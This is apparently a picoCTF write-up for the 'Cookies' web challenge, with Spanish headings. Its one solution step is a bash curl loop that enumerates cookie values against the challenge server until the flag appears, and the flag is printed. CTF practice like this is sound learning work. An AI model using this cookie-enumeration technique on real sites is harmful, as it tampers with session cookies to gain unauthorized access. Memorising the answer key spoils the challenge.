 ### Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)
### Solución 
┌──(kali㉿kali)-[~/PicoCTF]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>

### Notas adicionales
### Referencias